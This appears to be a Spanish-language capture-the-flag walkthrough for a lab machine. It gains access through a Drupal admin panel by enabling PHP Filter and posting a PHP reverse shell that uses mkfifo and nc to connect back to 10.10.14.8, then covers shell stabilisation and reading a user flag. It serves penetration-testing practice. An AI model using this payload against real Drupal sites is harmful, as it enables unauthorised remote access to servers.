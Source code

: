 ## Vuln exploit & Gaining Access {-}

### Conneccion por Druppal {-}

Para ejecutar commandos o mejor dicho, para ganar accesso al systema desde un admin panel de drupal siempre es el mismo.

1. En modules, habilitar el componente PHP Filter

    ```r
    knitr::include_graphics("images/drupal-phpfilter.png")
    ```

1. Crear un nuevo contenido

    ```r
    knitr::include_graphics("images/drupal-new-article.png")
    ```

1. Ponernos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En drupal añadir en el body

    ```php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
    ```

1. En Text Format le ponemos a **PHP code**
1. Le damos al boton Preview

Ya hemos ganado accesso al systema como el usuario *www-data*

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Analyzamos la maquina {-}

```bash
ls -l
cd /home
ls
cd /daniel
cat user.txt
```

Aqui encontramos un usuario **daniel** y tenemos derechos de escritura. Ya podemos visualizar la flag. Lo mas probable aqui
seria de convertirnos directamente en el usuario root.

